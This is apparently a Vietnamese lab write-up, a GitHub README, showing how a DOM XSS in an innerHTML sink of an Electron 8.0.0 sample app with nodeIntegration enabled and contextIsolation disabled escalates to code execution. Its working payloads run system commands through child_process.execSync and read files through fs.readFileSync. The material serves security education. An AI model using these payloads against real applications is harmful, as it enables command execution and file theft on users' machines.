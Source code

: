 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

Chúng ta sẽ lợi dụng sự tự do truy cập các API Node.js

Nói qua 1 xíu về API Node.js
API Node.js là môi trường thực thi code Javascript phía server máy chủ . sử dụng V8 engine, engine Javascript cùng một loạy các API tích hợp để cung cấp CHỨC NĂNG TƯƠNG TÁC VỚI HỆ ĐIỀU HÀNH hơn là chỉ chạy trong môi trường trình duyệt thông thường nhưu javascript .

Module thường xuyên bị attacker lợi dụng , nhất là khi API Node.js được dùng trong một môi trường với ít các biện pháp bảo mật , như là Electron khi ‘nodeIntegration’ <nút tích hợp> được bật . Các module thường bị lợi dụng là:
1.	Child_process : module cho pháp thực thi lệnh hệ thống hoặc các chương trình khác . Đại loại là child_process sẽ được lợi dụng để chạy shell .
2.	fs ( File system ) : lợi dụng để chỉnh sửa xóa , thêm file tùm lum . Cài phần mêm độc hại như file upload 
3.	‘net’ và ‘dgram’ : chiếm quyền tương tác với giao thực mạng TCP , UDP -> mở kết nối mạng độc hại hoặc thực hiện Dos
4. **`vm`**: Đây là một module cho phép bạn thực thi JavaScript trong một context ảo. Nó có thể bị lợi dụng để chạy mã độc trong một môi trường tưởng chừng được cô lập.
    5. **`os` và `path`**: Mặc dù ít nguy hiểm hơn các module khác, nhưng khi được kết hợp với các module như `fs`, chúng có thể được sử dụng để xây dựng các đường dẫn đến các tệp tin quan trọng hoặc thu thập thông tin về hệ thống mục tiêu.
=> Sử dụng suyntax của API Node.js để khai thác

Chúng ta sẽ ứng dụng và giải thích luôn 1 payload điển hình : 
```
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
```
1.	<img src=x : đoạn script này bắt đầu định nghĩa HTML image element.
Gán cho src=x nghĩa là không phải đường dân ảnh source ảnh hợp lệ . Nên đương nhiên sẽ kích hoạt sang onerror <đây là cố tình không điền src hợp lệ để điều hướng thực thi qua onerror >
2.	onerror= : đây là thuộc tính xử lí được kích hoạt khi src không hợp lệ
3.	alert(require(‘child_process’).execSync(‘id’).toString()); : Code Javascript này được thực thi do sự kiện onerror . 
*  Phần require(‘child_process’).execSync(‘id’) là lệnh Node.js sử dụng module child_process để thực thi lệnh hệ thống (system command) ‘id’ , lệnh này sẽ output ID của nhóm và người dùng thực (real and effective user and group IDs)
*  Phương thức execSync có nghĩa là thực thi lệnh một cách đồng bộ
execSync (viết tắt của executes synchronnously : thực thi đồng bộ). Nghĩa là nó sẽ chặn việc thực thi tiếp theo cho đến khi lệnh hệ thống (system command) trả về kết quả . 
Lệnh ‘id’ trả về thông tin về người dùng hiện tại như là ID người dùng (uid), ID nhóm (gid) và bất kì thành viên nhóm nào .

* Phương thức .toString() : chuyển đổi đầu ra của lệnh từ bộ đệm thành biểu diễn chuỗi (from buffer to a string representation)

* alert() là phương thức javascript tiêu chuẩn để hiển thị hộp thoại cánh báo với nội dung được chỉ định

Ứng dụng vào thực hành với file vulnerable1 <để ở trên>

File chứa lỗ hổng được "trích xuất" ra từ Electron 8.0.0

File:
vulnerable1/renderer.js

 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)

Đọc được cả file nếu muốn 
```
<img src=x onerror=”alert(require(‘fs’).readFileSync(‘main.js’).toString());”>
```

![image](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/05068ccd-5568-47be-a810-0d6dd6028399)

Nói chung là có rất nhiều module của API Node.js mà bạn có thể nghịch thêm .
